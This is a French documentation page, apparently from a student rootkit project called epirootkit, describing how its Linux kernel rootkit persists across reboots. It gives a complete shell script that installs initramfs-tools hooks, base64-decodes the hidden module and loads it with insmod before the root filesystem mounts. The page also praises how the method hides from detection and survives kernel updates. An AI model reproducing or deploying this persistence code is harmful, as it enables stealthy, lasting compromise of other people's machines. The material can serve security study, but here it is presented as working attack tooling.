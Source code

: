 \page persist Persistance
\tableofcontents

Pour assurer que le rootkit est chargé automatiquement à chaque démarrage du système, nous avons mis en place un procédé de persistance reposant sur l’intégration du module dans l’initramfs. Cette solution consiste à empaqueter le fichier binaire du rootkit (.ko) au sein de *l'initramfs*, puis à insérer un petit script shell qui, lors de la phase d’amorçage du noyau, effectue l’insertion du module avant même le montage des systèmes de fichiers usuels. Une fois chargé, le module installe ses *hooks ftrace* et cache ses propres composants. Ci-dessous, nous décrivons en détail le fonctionnement de ce mécanisme : du script de persistance lancé par le Makefile jusqu’à l’exécution de l’insertion du module au démarrage et son camouflage.

## 1. 🛠️ Présentation

Le cœur de la persistance est un unique script shell, initrd.sh, placé dans le répertoire `scripts/romance` du projet. Lorsqu’un utilisateur exécute la commande `sudo make` et après la compilation, le `Makefile` encode dans un premier temps en base64 le fichier .ko du rootkit afin de l’embarquer dans le répertoire `/lib/epirootkit/` sur le système de fichiers racine. Il appelle ensuite le script pour créer deux autres scripts spécifiques dans la structure d’initramfs :
- Un hook placé dans `/etc/initramfs-tools/hooks/epirootkit` pour copier le fichier encodé au moment de la génération de l’initramfs.
- Un script dans `/etc/initramfs-tools/scripts/init-premount/epirootkit-load` qui sera exécuté juste avant le montage du système de fichiers racine, afin d’insérer le module.

```c
#!/usr/bin/env bash
set -e

BLOB_SRC="/lib/epirootkit/cH0c01AtcG9ydC1rZXlzLmNv"

HOOK_DIR="/etc/initramfs-tools/hooks"
HOOK_PATH="$HOOK_DIR/epirootkit"
mkdir -p "$HOOK_DIR"
cat > "$HOOK_PATH" << 'EOF'
#!/bin/sh
set -e

PREREQ=""
prereqs() { echo "$PREREQ"; }
case "$1" in
  prereqs) prereqs && exit 0 ;;
esac

mkdir -p "${DESTDIR}/sbin"
ln -s /bin/kmod "${DESTDIR}/sbin/insmod"

mkdir -p "${DESTDIR}/lib/epirootkit"
install -m644 /lib/epirootkit/cH0c01AtcG9ydC1rZXlzLmNv \
  "${DESTDIR}/lib/epirootkit/cH0c01AtcG9ydC1rZXlzLmNv"

base64 -d "${DESTDIR}/lib/epirootkit/cH0c01AtcG9ydC1rZXlzLmNv" \
  > "${DESTDIR}/lib/epirootkit/epirootkit.ko"
rm -f "${DESTDIR}/lib/epirootkit/cH0c01AtcG9ydC1rZXlzLmNv"
EOF

chmod +x "$HOOK_PATH"

LOAD_DIR="/etc/initramfs-tools/scripts/init-premount"
LOAD_PATH="$LOAD_DIR/epirootkit-load"
mkdir -p "$LOAD_DIR"
cat > "$LOAD_PATH" << 'EOF'
#!/bin/sh
/sbin/insmod /lib/epirootkit/epirootkit.ko 2> /tmp/insmod.err || true
EOF

chmod +x "$LOAD_PATH"

update-initramfs -u -k "$(uname -r)"
```

## 2. 🚀 Amorçage

### 2.1 Chargement

Le noyau Linux charge en mémoire l’initramfs généré précédemment. Ce dernier contient le module epirootkit.ko décrypté depuis le fichier en base64 ainsi que les scripts `hooks/epirootkit` et `scripts/init-premount/epirootkit-load`. Le binaire `insmod` correspondant à un lien symbolique vers le binaire `kmod`, mais n'étant pas présent par défaut dans l'initramfs, on crée manuellement le lien symbolique afin de rendre la commande disponible.
```bash
ln -s /bin/kmod "${DESTDIR}/sbin/insmod"
```

### 2.2 Exécution

Avant de monter la racine, l’initramfs exécute tous les scripts présents dans scripts/init-premount/. Notre script se contente d’appeler `/sbin/insmod /lib/epirootkit/epirootkit.ko`. Après le chargement du module, l’initramfs termine sa tâche, puis quitte sa phase *rootfs initramfs*. Le noyau monte alors la racine du système depuis le disque. À ce stade, l’*epirootkit.ko* est déjà actif, et les hooks *ftrace* intercepteront tous les appels système suivants, et pourront cacher les scripts de persistance automatiquement pour prévenir leur détection, ainsi que le module en base64. Le base64 permet principalement de transformer le module compilé en texte brut, pour une obfuscation très très minimale. 

## 3. 🔥 Avantages

Au départ, nous envisagions d’utiliser la méthode classique pour garantir une persistance fiable du module kernel : l’insérer directement dans le répertoire des modules, accompagné d’un fichier `.conf` dans `/etc/modules-load.d/`. Cependant, nous avons souhaité explorer une autre approche… Ce que nous avons particulièrement apprécié avec cette méthode alternative, c’est que le module est inséré avant le montage de la partition racine, c’est-à-dire à un moment où la plupart des mécanismes classiques de détection ou de protection ne sont pas encore actifs. Cela permet de masquer tous les composants dès le démarrage avant les autres modules.

> Nous avons par ailleurs découvert de nombreuses techniques intéressantes pour de futurs projets, notamment sur l’excellent site internet [Elastic Security Labs](https://www.elastic.co/security-labs/the-grand-finale-on-linux-persistence).

De plus, à chaque exécution de `update-initramfs`, l’initramfs est régénéré automatiquement et inclut à nouveau notre hook ainsi que notre module encodé. De cette manière, même en cas de mise à jour du noyau (via apt, aptitude, etc.), la persistance est maintenue : tant que les scripts dans `/etc/initramfs-tools/` ne sont pas supprimés, le module est réinjecté à chaque démarrage, sans qu’une réinstallation manuelle ne soit nécessaire. Cependant, cette méthode ne fonctionne que si la distribution utilise réellement initramfs-tools. Sur d’autres distributions, il faudrait probablement adapter la logique à l’outil de génération d’initramfs utilisé...

<img 
  src="logo_no_text.png" 
  style="
    display: block;
    margin: 100px auto;
    width: 30%;
    overflow: hidden;
  "
/>
